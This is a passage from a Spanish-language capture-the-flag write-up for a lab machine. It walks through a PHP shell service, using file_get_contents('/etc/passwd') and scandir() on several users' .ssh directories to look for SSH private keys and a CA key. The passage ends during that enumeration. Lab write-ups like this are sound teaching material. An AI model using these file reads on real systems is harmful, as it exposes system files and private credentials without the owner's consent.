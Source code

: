 Vemos cosas intentamos con **ls** ver las variables classes funcciones y mas

```bash
ls
#Output
$tokyo
```

Miramos el contenido con show

```bash
show $tokyo
#output
class Tokyo {
    private function sign($caCert, $userCsr){
        ...
    }
}
```

Aqui vemos la class Tokyo con su funccion private. Podemos ver que en el directorio 
```bash
 /home/nairobi/ca.key 
```
 hay una key. Como este servicio
esta en php, miramos si podemos listar contenido de ficheros con las fucciones php 
```bash
 file_get_contents() 
```
, 
```bash
 scandir() 
```
 o 
```bash
 readfile() 
```


```bash
file_get_contents("/etc/passwd")
```

Y podemos ver el 
```bash
 /etc/passwd 
```
, miramos si podemos ver la key del usuario nairobi.

miramos si encontramos id_rsa

```bash
scandir("/")
scandir("/home")
scandir("/home/berlin/.ssh")
scandir("/home/nairobi/.ssh")
scandir("/home/oslo/.ssh")
scandir("/home/dali/.ssh")
scandir("/home/professor/.ssh")
```
